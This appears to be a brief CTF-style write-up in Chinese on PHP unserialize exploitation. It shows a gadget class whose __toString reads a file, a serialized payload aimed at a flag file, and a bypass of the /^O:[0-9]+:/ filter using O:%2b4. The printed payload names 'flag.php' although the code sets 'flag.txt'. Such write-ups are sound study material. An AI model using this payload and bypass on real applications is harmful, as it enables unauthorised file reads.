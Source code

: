 # Unserialize

## 序列化

```php
class what {
    public $filename;
    var $text;
    function __toString() {
        return @file_get_contents($this->filename);
    }
}
$a = new what();
$a->filename = "flag.txt";
$a->text = "??!!@@$$5%%???";
$param = serialize($a);
echo $param;
```

O:4:"what":2:{s:8:"filename";s:8:"flag.php";s:4:"text";s:14:"??!!@@$$5%%???";}

## 正则

```php
!(bool)preg_match("/^O:[0-9]+:/s", $param);
```

O:+4:...绕过

由于在url中+会被识别为空格，故需用+的url编码%2b替换，即O:%2b4:...

原理： http://www.phpbug.cn/archives/32.html